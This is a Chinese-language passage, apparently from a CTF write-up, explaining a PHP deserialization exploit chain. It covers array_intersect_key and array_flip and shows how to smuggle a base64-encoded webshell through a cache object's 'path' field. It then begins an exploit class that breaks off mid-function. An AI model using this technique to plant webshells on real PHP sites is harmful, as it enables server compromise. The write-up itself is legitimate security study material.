 解释一下用到的几个函数
> ``array_intersect_key()``
> 
> 该函数比较两个（或更多个）数组的键名，并返回一个交集数组，该数组包括了所有在被比较的数组（array1）中，同时也在任何其他参数数组（array2 或 array3 等等）中的键名。
> 
> ``array_flip``
>
> 反转数组中的键名和对应关联的键值：

关键在于这个``cache``构造也即``cleanContents``函数中的``contents``

```php
foreach ($contents as $path => $object) {
    if (is_array($object)) {
        $contents[$path] = array_intersect_key($object, $cachedProperties);
    }
}
```
根据之前的``$cachedProperties``

这里直接构造

```php
$object=["path" =>"<base64encode(shell)>"] 
```

其中``path``也可以改成``$cachedProperties``中的其他值

但是因为后面生成的json是带格式的，所以还要fuzz一下``$path``和``$complete``的长度


Exp:
```php
<?php

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function construct($store, $key , $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
```
